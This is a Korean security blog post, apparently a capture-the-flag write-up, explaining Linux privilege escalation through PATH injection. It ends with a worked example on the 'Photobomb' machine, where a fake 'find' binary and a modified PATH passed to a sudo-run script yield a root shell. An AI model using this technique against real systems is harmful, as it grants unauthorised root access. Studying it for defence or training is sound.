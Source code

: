 ```yaml
---
title: Privilige escalation with Path Injection
date: 2023-01-24
author: glasses96
categories: [Linux]
tags: [Linux, Privilige escalation]
pin: true
math: true
mermaid: true
---
```


> **일반적으로 쉘을 따게 되면 ROOT 권한이 아니다.**  
> **그래서 이런저런 제약이 많기 때문에 ROOT 권한이나 상위 권한이 필요한 경우가 있다.**  
> **권한상승 취약점 중 하나인 Path Injection을 알아보자**
{: .prompt-info }

---

## Privilige escalation?
권한 상승([Privilige escalation](https://en.wikipedia.org/wiki/Privilege_escalation))은 운영 체제나 소프트웨어 애플리케이션의 버그, 설계 및 구성 결함등을 악용하여 <span style="color:#9999FF">높은 엑세스 권한을 얻는 행위</span>입니다.

권한 상승에는 두 가지의 형태로 발생합니다.

 - 수직적 권한 상승
 - 수평적 권한 상승
 
### Vertical privilege escalation
수직적 권한상승(Vertical privilege escalation)은 낮은 권한의 사용자가 높은 권한을 이용하는 행위 입니다.
ex) 일반 사용자 -> 관리자 권한을 필요한 결재등을 이용 가능 할때

### Horizontal privilege escalation
수평적 권한상승(Horizontal privilege escalation)은 동등한 권한을 이용하는 행위 입니다.
ex) 내 정보 보기 > 타 사용자 정보 보기가 가능할 때

### Linux Privilige escalation
일반적으로 서버의 쉘을 획득하였을 때 루트 쉘이 아니기 때문에 이런저런 제약이 존재하며 루트나 상위 권한의 쉘이 필요한 경우가 있습니다.
이때 권한상승 취약점을 이용하여 루트 나 상위 권한의 쉘을 획득할 수 있습니다.
[Linux Privilege Escalation](https://book.hacktricks.xyz/linux-hardening/privilege-escalation)에서 여러가지 리눅스 권한 상승에 대해 설명이 되어있습니다.

해당 블로그는 <span style="color:#9999FF">Linux Path Injection</span>을 통한 권한상승을 소개하는 글입니다.


---
## Linux Path Injection
Linux Path Injection은 리눅스의 환경변수 $PATH를 이용하여 권한 상승 시키는 방법입니다.

권한 상승을 하기 위해선 아래와 같은 조건이 필요합니다.

1. `seuid`, `setgid`가 설정되어 있는 파일 or 상위 권한으로 실행되고 있는 파일
2. 해당 파일에서 명령어가 `relative path`로 실행되어야 함

### SetUID & SetGID
리눅스에서 파일을 실행할 때 파일을 실행한 사용자(그룹)가 주체가 되어 프로세스를 실행합니다.
하지만 `setuid`, `setgid`가 설정되어 있는 파일을 실행한다면 파일을 소유하고 있는 소유자의 권한으로 프로세스를 실행합니다.
`ls -al` 명령어로 확인을 하면 `setuid`, `setgid`가 설정되어 있는 파일은  `s or S` 가 표시되어 있습니다.


### Relative Path & Absolute Path
리눅스에서 파일의 경로를 나타내는 방법은 두 가지가 존재합니다.

1. Relative Path(상대 경로)
`상대 경로`는 현재 작업 디렉토리를 기준으로 파일 또는 폴더의 위치를 설명하는 경로입니다.

2. Absolute Path(절대 경로)
`절대 경로`는 루트 디렉토리(/)를 기준으로 파일 또는 폴더의 위치를 설명하는 경로입니다.


### Environment Variable
환경 변수는 프로세스가 컴퓨터에서 동작하는 방식에 영향을 미치는, 동적인 값들의 모임입니다.

리눅스에서 환경변수 관련 명령어는 아래와 같습니다.

```bash
#환경변수 저장
export [환경변수명] = [값]

#환경변수 출력
env 명령어

#환경변수들의 경로인 path를 출력하는 명령어
echo $PATH

#환경변수 해제
unset [환경변수명]
```

여기서 중요한 점은 리눅스에서 사용하는 명령어도 일종의 실행파일이라는 점 입니다.
즉 **명령어 입력시 환경변수 PATH를 토대로(맨앞부터 읽음) 파일이 실행**됩니다.

---
## Privilige escalation
본론으로 돌아가서 [Photobomb](https://glasses96/posts/13/)에서 Privilige escalation이 되는 이유에 대하여 다시 알아보자

1. cleanup.sh `루트 권한`으로 실행된다.
2. cleanup.sh는 find 명령어를 사용하며 find 명령어는 `Relatve Path` 를 사용한다.


```bash
wizard@photobomb:~$ echo "/bin/bash" > find 
//현재 디렉토리에 find 파일을 만듬

wizard@photobomb:~$ chmod +x find
//find에 실행권한 부여

wizard@photobomb:~$ echo "sudo PATH=$PWD:$PATH /opt/cleanup.sh
//기존 환경변수에 $PWD 추가함
//find 함수는 상대경로를 이용하여 파일을 찾는데 환경변수 PWD등록하므로 현재 디렉토리에 find 파일이 먼저 실행되므로 /bin/bash가 실행되어 권한상승이 일어남

wizard@photobomb:~$ id
id uid=0(root) gid=0(root) groups=0(root)
```

다시 말하면 아래와 같습니다.

1. 현재 경로에 find 라는 파일을 새로 만들어 `/bin/bash` 쉘을 사용하도록 함 + 실행권한 추가
2. 환경 변수에 `$PWD` 를 저장하여 가장먼저 현재 경로를 참조하도록 만듬
3. cleanup.sh가 실행될때 `find` 명령어가 실행되야하는데 환경 변수가 현재 경로에 있는 파일을 제일먼저 참조하므로 현재 경로에 있는 find 파일이 제일 먼저 실행됨
4. Privilige escalation